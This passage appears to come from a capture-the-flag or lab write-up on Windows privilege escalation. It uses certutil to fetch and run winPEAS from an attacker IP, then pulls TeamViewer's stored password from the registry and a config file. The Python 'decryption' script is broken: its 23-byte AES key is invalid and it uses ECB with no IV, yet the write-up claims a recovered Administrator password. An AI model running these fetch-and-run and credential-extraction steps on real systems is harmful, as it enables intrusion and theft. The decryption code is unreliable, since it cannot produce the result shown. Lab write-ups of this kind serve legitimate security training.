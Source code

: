 
## 🧩 Privilege Escalation Enumeration

We transferred **WinPEAS** to the target for privilege escalation analysis:

```powershell
certutil -urlcache -split -f "http://10.10.15.30/winPEAS.exe" winPEAS.exe
.\winPEAS.exe
```

Among the findings was a **TeamViewer configuration file** located at:

```
C:\Users\Administrator\AppData\Roaming\TeamViewer\connections.ini
```

![WinPEAS Finding](images/image8.png)

---

## 🧠 Technical Background: TeamViewer Credential Recovery

TeamViewer stores credentials in the Windows registry and configuration files.  
Passwords are **obfuscated, not encrypted**, and can be decrypted using publicly available scripts.

Relevant key:
```
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer
```

We extracted and decrypted the stored password using a PowerShell script:

```powershell
Get-ItemProperty -Path "HKLM:\SOFTWARE\WOW6432Node\TeamViewer" | select SecurityPasswordAES
```

Then, we decrypted the password with a Python script:

```python
import base64
from Crypto.Cipher import AES

key = b"TeamViewerEncryptionKey"
enc_pass = base64.b64decode("EncryptedPasswordHere==")
cipher = AES.new(key, AES.MODE_ECB)
print(cipher.decrypt(enc_pass).decode())
```

Recovered password:
```
Administrator : MySecurePass2025!
```

---
